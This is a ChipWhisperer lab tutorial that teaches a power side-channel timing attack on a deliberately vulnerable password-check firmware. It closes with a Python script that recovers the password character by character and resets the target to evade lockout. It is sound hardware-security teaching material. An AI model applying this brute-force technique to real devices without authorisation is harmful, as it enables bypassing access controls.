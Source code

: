 .. _tutorialbasictimingpasswd:

Tutorial #B3-1: Timing Analysis with Power for Password Bypass
==============================================================

This tutorial will introduce you to breaking devices by determining when a device is performing certain operations. It will use
a simple password check, and demonstrate how to perform a basic power analysis.

In addition this example shows you how to drive the ChipWhisperer software with a script, rather than using the GUI. This will
be required when attacking new devices which you have not yet added to the core ChipWhisperer software.

Note this is not a prerequisite to the tutorial on breaking AES. You can skip this tutorial if you wish.

Prerequisites
-------------

You should have already completed :ref:`tutorialtimingsimple` to gain a better understanding of the ChipWhisperer interface.

Building the Target Firmware
----------------------------

The target firmware is located in the directory ``chipwhisperer\hardware\victims\firmware\basic-passwdcheck``. Build
the firmware using ``make``, once again being careful to ensure you have modified the ``makefile`` to select the 
correct target. You should end up with something like this being printed::

    Creating Symbol Table: basic-passwdcheck.sym
    avr-nm -n basic-passwdcheck.elf > basic-passwdcheck.sym
    
    Size after:
    AVR Memory Usage
    ----------------
    Device: atxmega128d3
    
    Program:    5400 bytes (3.9% Full)
    (.text + .data + .bootloader)
    
    Data:        524 bytes (6.4% Full)
    (.data + .bss + .noinit)
    
    
    Built for platform CW-Lite XMEGA
    
    -------- end --------

Basic Communications with the Target
------------------------------------

At this point, you should be able to configure the target as in the `tutorialtimingsimple` or `tutorialcomms`. Rather than tediously going
through the setup process again, we'll simply use one of the scripts built into the ChipWhisperer-Capture software. This will demonstrate
how we can use a script as a starting point to simplify our setup.

1. Connect your target hardware (ChipWhisperer-Lite or ChipWhisperer-Capture Rev 2 with target board).

2. Open the ChipWhisperer-Capture software.

3. From the *Example Scripts*, select one which most closely matches your hardware. For example here I'm using a ChipWhisperer-Lite with the
   XMEGA target, so will select that script. Note I'm *NOT* attacking AES, so will need to make some adjustments later.
    .. image:: /images/tutorials/basic/timingpowerbasic/scriptexample.png
    
4. The system should connect to your hardware. Remember you have not yet reprogrammed the target so won't be communicating with the target
   program.
   
5. Using the programming tool (such as XMEGA programming dialog), program the file ``basic-passwdcheck.hex`` into the target device. This file
   is located where you ran ``make`` previously.
   
6. Select *Tools --> Open Terminal*, and press *Connect*. You should see a window such as this:

    .. image:: /images/tutorials/basic/timingpowerbasic/termconn.png

7. At this point we need to reset the target device. The easiest way to do this is use the programmer interface, and press
   the *Check Signature* or *Read Signature* button. This will reset the target device as part of the signature read operation.
   You should see some messages come across the terminal emulator window:
   
    .. image:: /images/tutorials/basic/timingpowerbasic/checksig_print.png
   
   Note a few warnings about the terminal emulator:
    * The on-board buffer is fairly small, and can be easily overflowed. You may notice a few longer lines become trunicated if printing is too fast!
    * You can uncheck the "Show non-ASCII as hex" to avoid having the ``0a`` printed in red. The ``0a`` is the hex character for a newline. Many
      protocols use non-ASCII characters, so to help with debugging it is left enabled by default.
      
8. We've now got some super-secure system! Let's begin with some exploratory tests - in this case I happened to know the correct password is ``h0px3``.

   .. tip::

      In real systems, you may often know *one* of the passwords, which is sufficient to investigate the password checking routines as we will do. You
      also normally have an ability to reset passwords to default. While the reset procedure would erase any data you care about, the attacker will
      be able to use this 'sacrificial' device to learn about possible vulnerabilites. So the assumption that we have access to the password is really
      just saying we have access to *a* password, and will use that knowledge to break the system in general.
      
9. Using the terminal emulator, write the correct password in, and press ``<enter>``. You should be greeted by a welcome message, and if using the
   CW-Lite XMEGA target the green LED will illuminate:
   
   .. image:: /images/tutorials/basic/timingpowerbasic/passok.png

10. The system enters an infinite loop for any password entry. Thus you must reset the system, use the *Programmer Window* to again perform a *Check Signature*
    or *Read Signature* operation.
    
11. Enter an incorrect password - notice a different message is printed, and if using the CW-Lite XMEGA target the red LED will come on.

12. At this point, we'll make some changes to the trigger setup of the ChipWhisperer. In particular, ensure you set the following:

     * Offset = 0
     * Timeout set to 5 seconds or greater (to give yourself time when manually testing)

     .. image:: /images/tutorials/basic/timingpowerbasic/timeout_offset.png

13. Change to the *Target Settings* tab, and delete the *Command* strings. Those strings are used in the AES attack to send a specific command
    to the target device, for now we will be manually sending data:

     .. image:: /images/tutorials/basic/timingpowerbasic/text_targetsettings.png

14. Perform the following actions:

     i) Reset the target device (e.g. by performing the signature check).
     ii) Enter the password ``h0px3`` in the terminal window, but *do not* yet hit enter.
     iii) Press the *Capture 1* button, and immediately switch to the terminal emulator window and press ``<enter>`` to send the password.
    
    You must send the password before the timeout occurs -- you can increase the length of the timeout if needed to give yourself more time! If
    this works you should see the power consumption displayed in the GUI:
    
     .. image:: /images/tutorials/basic/timingpowerbasic/trace_manual_pass.png
  
15. Rather than using the manual terminal, let's now use the GUI to automatically send a password try. Switching back to the *Target Settings* tab,
    write ``h0px3\n`` into the *Go Command* option:
    
     .. image:: /images/tutorials/basic/timingpowerbasic/gocorrect.png

    The *Go Command* is sent right after the scope is armed. In this example it means we can capture the power consumption during the password
    entry phase.
   
16. Now perform the following actions:
   
     i) Reset the target device (e.g. by performing the signature check).
     ii) Press the *Capture 1* button.
    
    Hopefully this resulted in the same waveform as before! Note the device takes around 1 second to 'boot', so if you are too lightning
    fast after resetting the device it won't actually be ready to accept the password. You can keep the terminal emulator window open to
    view the output data.
    
17. Play around with the password entered on the *Go Command* - try all of the following:

     *``h0px3\n``
     *``h0px4\n``
     *``h0paa\n``
     *``haaaa\n``
     *``a\n``

    You should notice a distinct change in the password depending how many characters were correct. For example the following shows the
    difference between passwords of ``h0px4`` (which has 4 correct characters) and ``h0paa`` (which has 3 correct characters):
   
     .. image:: /images/tutorials/basic/timingpowerbasic/3vs4.png
    
18. The last step before scripting an entire attack is to figre out how to automatically reset the target device before (or after) each
    capture. There are two ways to do this, and the following steps take you through two examples of how to accomplish this goal.
    
Reset via Spare IO Lines
^^^^^^^^^^^^^^^^^^^^^^^^

TODO - see reset via programming interface for now

Reset via Programming Interface
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following example targets the ChipWhisperer-Lite XMEGA target. You can modify it for ChipWhisperer-Lite AVR target by replacing
``XMEGA`` with ``AVR`` in the function calls. We'll first learn how to recreate the process of pressing the *Check Signature* button
via the API. This isn't normally exposed, but we can explore that using the Python Console.

1. Type ``self`` into the Python console, the output will look like this::

     >>> self
     <__main__.ChipWhispererCapture object at 0x072F25F8>

   This tells us that the class type of this opject is ``ChipWhispererCapture``. We can open the source code for that class, and determine
   where the "scope" is stored. This takes some effort the first time through, but eventually you would discover there is a ``self.scope``.
   
   Type ``self.scope`` into the Python console::

     >>> self.scope
     <chipwhisperer.capture.scopes.OpenADC.OpenADCInterface object at 0x0D4986C0>
    
   Opening the file ``chipwhisperer\capture\scopes\OpenADC.py`` would tell us that ``.scopetype`` is used to store the next level of the
   interface. We want to reach very far down to get to the AVR/XMEGA programmer interface, so will continue down the rabbit hole::
   
     >>> self.scope.scopetype   
     <chipwhisperer.capture.scopes.OpenADC.OpenADCInterface_NAEUSBChip object at 0x0D5BC4B8>
   
   Finally, checking the source for the ``OpenADCInterface_NAEUSBChip`` class in that same file gives us this source code::
   
        ...code...
        self.cwliteXMEGA = XMEGAProgrammerDialog(global_mod.main_window)

        self.xmegaProgramAct = QAction('CW-Lite XMEGA Programmer', self,
                                       statusTip='Open XMEGA Programmer (ChipWhisperer-Lite Only)',
                                       triggered=self.cwliteXMEGA.show)

        self.cwliteAVR = AVRProgrammerDialog(global_mod.main_window)
        ...code...
        
   We can finally try reaching out and touching the XMEGA or AVR programmer::
   
        >>> self.scope.scopetype.cwliteXMEGA
        <chipwhisperer.capture.utils.XMEGAProgrammer.XMEGAProgrammerDialog object at 0x0D5BC670>
        
   This allows us to touch the XMEGA programmer dialog directly. At this point you can refer to the file
   ``chipwhisperer\capture\utils\XMEGAProgrammer.py`` to confirm the class interface. Part of this will be
   the ``readSignature()`` function, which we can try running::
   
       >>> self.scope.scopetype.cwliteXMEGA.readSignature()
       
   Success! You should see the terminal emulator print the startup message, indicating the target was rebooted.
   
2. Now we need to understand how to force this to be called. This can be done via the *Auxiliary Modules*, which we used
   in the previous part to toggle an IO line. Instead we will define one through the command prompt, before finally using
   it in a custom script.
   
   At the console, type the following to import some require modules (ignore the >>> which just indicate the console prompt)::
   
    >>> from time import sleep
    >>> from chipwhisperer.capture.auxiliary.AuxiliaryTemplate import AuxiliaryTemplate
    
3. We will now define a simple ``reset_device()`` function. You will do this interactively at the console, the objective being
   to enter the following chunk of code::
   
    def reset_device():
        self.scope.scopetype.cwliteXMEGA.readSignature()
        sleep(0.8)
        
   Remember Python is *whitespace sensitive*, so you'll have to be careful with indents in use. To being with, simply type ``def reset_device():``
   at the console and press enter. You'll notice the ``>>>`` changes to ``...`` at the console prompt:
   
     .. image:: /images/tutorials/basic/timingpowerbasic/consoledotdot.png
     
   Now you will enter the next two lines. Remember you must insert at least one space before each line, and it must be consistent between the
   two lines entered. Once you enter the last line, press enter and the ``...`` should change back to ``>>>``
   
     .. image:: /images/tutorials/basic/timingpowerbasic/consolespace.png
     
4. Check you can run ``reset_device()`` at the console and the device resets. If there is an error check you've run the import statements previously
   and for other typos. Re-run the ``def reset_device():`` step if required.
   
5. Now we need to define the class which links the function to a step in the capture. To do so, we want to define the following::

    class resetClass(AuxiliaryTemplate):
      def traceDone(self):
       reset_device()

   Pay very careful attention to the indentation -- when entering via the command line, we need to ensure `` def traceDone(self):`` has one
   level of indents, and ``  reset_device()`` has additional indent. You can use a single space if you want for one-level, and two spaces for
   two-levels for example::
   
    >>> class resetClass(AuxiliaryTemplate):
    ...  def traceDone(self):
    ...   reset_device()
    
6. Finally, generate an object using that class, and confirm it again resets the device::

    >>> rc = resetClass()
    >>> rc.traceDone()
   
7. Now all that is left is to link this class into the Auxiliary interface. This is done simply with the following call::

    >>> self.auxChanged(rc)
    
   ``auxChanged()`` is called with the new Auxiliary module to be loaded (or list of modules). The ``traceDone()`` method will be
   called once a single trace is done.
   
8. Confirm you can press *Capture 1* in the GUI without needing to manually reset the XMEGA target device. Play around with the password
   to again see the effect of changing password length. In particular, start to consider where you might look for an indicator about
   how far in the loop you can go? Play around with 0 correct digits, 1 correct digits, etc.
 

Scripting Communications
------------------------

1. Make a copy of the existing script. You can find it at ``chipwhisperer\software\chipwhisperer\capture\scripts``, for example the default
   one is called ``cwlite-simpleserialxmega.py`` for the XMEGA device. Copy this to another directory that you will use for the attack.
   
2. Rename the script something else - for example ``cwlite-passwordcrack.py``, and open it for editing. You'll notice the following is a
   main chunk of the code, where the parameters are set::
   
        #Example of using a list to set parameters. Slightly easier to copy/paste in this format
        lstexample = [['CW Extra', 'CW Extra Settings', 'Trigger Pins', 'Target IO4 (Trigger Line)', True],
                      ['CW Extra', 'CW Extra Settings', 'Target IOn Pins', 'Target IO1', 'Serial RXD'],
                      ['CW Extra', 'CW Extra Settings', 'Target IOn Pins', 'Target IO2', 'Serial TXD'],
                      ['OpenADC', 'Clock Setup', 'CLKGEN Settings', 'Desired Frequency', 7370000.0],
                      ['CW Extra', 'CW Extra Settings', 'Target HS IO-Out', 'CLKGEN'],
                      ['OpenADC', 'Clock Setup', 'ADC Clock', 'Source', 'CLKGEN x4 via DCM'],
                      ['OpenADC', 'Trigger Setup', 'Total Samples', 3000],
                      ['OpenADC', 'Trigger Setup', 'Offset', 1500],
                      ['OpenADC', 'Gain Setting', 'Setting', 45],
                      ['OpenADC', 'Trigger Setup', 'Mode', 'rising edge'],
                      #Final step: make DCMs relock in case they are lost
                      ['OpenADC', 'Clock Setup', 'ADC Clock', 'Reset ADC DCM', None],
                      ]

   Those parameters come from the *Scripting Parameters* tab. Switch over to it and notice how when you change the text for example, it
   tells you the required parameter name to do this via the API call:
   
     .. image:: /images/tutorials/basic/timingpowerbasic/scriptcommands.png
    
   Note that commands run via the script are also printed, so you can see where the values being set are coming from too. At this point
   close the *ChipWhisperer-Capture* window, as we will confirm the script still works.
   
3. Run the new script (which doesn't have any changes yet). You may have to open a console with Python in the path:
    
    i) If you installed WinPython, run the *WinPython Console* from your WinPython installation directory.
    ii) If using the VMWare image of a Linux machine, this should just be a regular console
    
  Run the script with ``python cwlite-passwordcrack.py``. If the script errors out, it might be that the location of the FPGA bitstream
  is stored in relative terms. To fix this perform the following:
  
   i) Open ChipWhisperer-Capture regularly.
   ii) Run the ChipWhisperer script that you used previously.
   iii) Select *Tools-->Config CW Firmware*
   iv) Under the "FPGA .zip (Release)", hit the "Find" button. Point the system to the file
       ``chipwhisperer/hardware/capture/chipwhisperer-lite/cwlite_firmware.zip`` on your filesystem. Note by default there is
       a relative path.
       
4. Once again on the *Target Settings* tab, delete the various commands. Note the resulting *Script Commands* which you will need to enter
   to achieve this same goal.
   
5. Close ChipWhisperer-Capture.

6. Edit the script, first find the line setting the Trigger Offset::

       ['OpenADC', 'Trigger Setup', 'Offset', 1500],

   And set this to 0, which we were using previously::
   
       ['OpenADC', 'Trigger Setup', 'Offset', 0],
       
7. Next, append the required commands to clear the simpleserial commands::

        #Example of using a list to set parameters. Slightly easier to copy/paste in this format
        lstexample = [['CW Extra', 'CW Extra Settings', 'Trigger Pins', 'Target IO4 (Trigger Line)', True],
                      ...BUNCH MORE COMMANDS HERE HAVE BEEN REMOVED...
                      #Final step: make DCMs relock in case they are lost
                      ['OpenADC', 'Clock Setup', 'ADC Clock', 'Reset ADC DCM', None],
                      
                      #Append your commands here
                      ['Target Connection', 'Load Key Command', u''],
                      ['Target Connection', 'Go Command', u''],
                      ['Target Connection', 'Output Format', u''],                      
                      ]

8. Next, we are going to "hack in" the Auxiliary module. While the following isn't great Python code, the idea is to 
   demonstrate how we can rapidly iterate with the combination of GUI to explore options, and the script to write them
   into place. First, add the imports to the start of the Python script::
   
        from time import sleep
        from chipwhisperer.capture.auxiliary.AuxiliaryTemplate import AuxiliaryTemplate
   
   Find the section of the file that sends the previous commands to the hardware. You will see a line like the following::
   
        #Download all hardware setup parameters
        for cmd in lstexample: cap.setParameter(cmd)

   We will then hack in the script we tested previously, which will insert our custom Auxiliary module::
   
        #Download all hardware setup parameters
        for cmd in lstexample: cap.setParameter(cmd)

        def reset_device():
            cap.scope.scopetype.cwliteXMEGA.readSignature()
            sleep(0.8)

        class resetClass(AuxiliaryTemplate):
          def traceDone(self):
           reset_device()

        rc = resetClass()
        cap.auxChanged(rc)

   Note we changed the references to "self" to "cap", as we are no longer running from within the Capture environment.
   Otherwise we have used the ability of Python to declare classes inside of functions to avoid needing to think about
   how to properly declare everything.

9. Finally, we will set the password. You can enter the password in the Capture *Target Settings* tab, and see the following
   sort of call would set the appropriate password::
   
    cap.setParameter(['Target Connection', 'Go Command', u'h0px3\\n'])
    
   Note the newline is actually escaped, to set the text equivalent of what will be printed. This will result in an actual
   newline going out across the serial port.
   
   Set that command at some point after your call to ``cap.auxChanged()``. Close any open ChipWhisperer-Capture windows, and
   run the script as before. You should connect to the target, and be able to press *Capture 1* and see the correct waveform.
   
10. Next, we will automatically start attacking the system. You needed to figure out where we will look to determine if the
    password check is working. Looking at an example of the power when 0 and 1 bytes are correct, we can see a good point
    that appears to shift forward in time:
    
     .. image:: /images/tutorials/basic/timingpowerbasic/passwordcrackerpts.png
   
    This point corresponds to an offset of 153 samples, and a delta for each character of 72 points. Let's start with cracking
    just the first character, assuming it's a lowercase alphanumeric character::
    
        trylist = "abcdefghijklmnopqrstuvwyx0123456789"
        
        for c in trylist:
            cap.setParameter(['Target Connection', 'Go Command', u'%c\\n'%c])
            cap.capture1()
            
            #TODO: Check data to see if successful??
            print "Try = %c"%c
            
            #Call to pe() causes GUI to process outstanding events, useful if you are calling API directly
            pe()
   
11. We haven't yet pragmatically tested the results, but run the script anyway (to kill it, you'll have to use Ctrl-C on the terminal
    window). You should notice a distinct change of the power signature when it runs through "Try = h".
    
12. We can access ``cap.scope.datapoints`` to get the data points. Let's print that point of interest::
        
        for c in trylist:
            cap.setParameter(['Target Connection', 'Go Command', u'%c\\n'%c])
            cap.capture1()
            
            #TODO: Check data to see if successful??
            print "Try = %c"%c
            print cap.scope.datapoints[153]
            
            #Call to pe() causes GUI to process outstanding events, useful if you are calling API directly
            pe()
   
13. Running that example, you can see we can use a simple threshold to detect the correct password. Finally use the
    following paying careful attention that you first:
    
      * Check the offset and delta values (here they are 153 and 72)
      * Note that the "Go Command" has been modified to send the known password characters, otherwise
        it won't work in a progressive manner.
        
    The following is a sample code you can replace the previous with::

        password = ""

        for i in range(0,5):
            print "***CHARACTER %d***"%i
            for c in trylist:
                cap.setParameter(['Target Connection', 'Go Command', password + "%c\\n"%c])
                cap.capture1()
                
                print "Try = %c"%c
                #print cap.scope.datapoints[153 + i*72]
                if cap.scope.datapoints[153 + i*72] > -0.2:
                    print "****CHARACTER %d = %c****"%(i, c)
                    password += c
                    break
                
                elif c == "9":
                    print "****CHARACTER %d FAILED****"%(i)
                    password += "?"
                
                #Call to pe() causes GUI to process outstanding events, useful if you are calling API directly
                pe()    

        print password

That's it! You should have successfully cracked a password using the timing attack. Some notes on this method:

 * The target device has a finite start-up time, which slows down the attack. If you wish, remove some of the
   printf()'s from the target code, recompile and reprogram, and see how quickly you can do this attack.
   
 * The current script doesn't look for the "WELCOME" message when the password is OK. That is an extension that
   allows it to crack any size password.
   
 * If there was a lock-out on a wrong password, the system would ignore it, as it resets the target after every
   attempt.

Conclusion
----------

This tutorial has demonstrated the use of the power side-channel for performing timing attacks. A target with a simple password-based security
system is broken. In addition you have learned about the scripting support in the ChipWhisperer-Capture software.

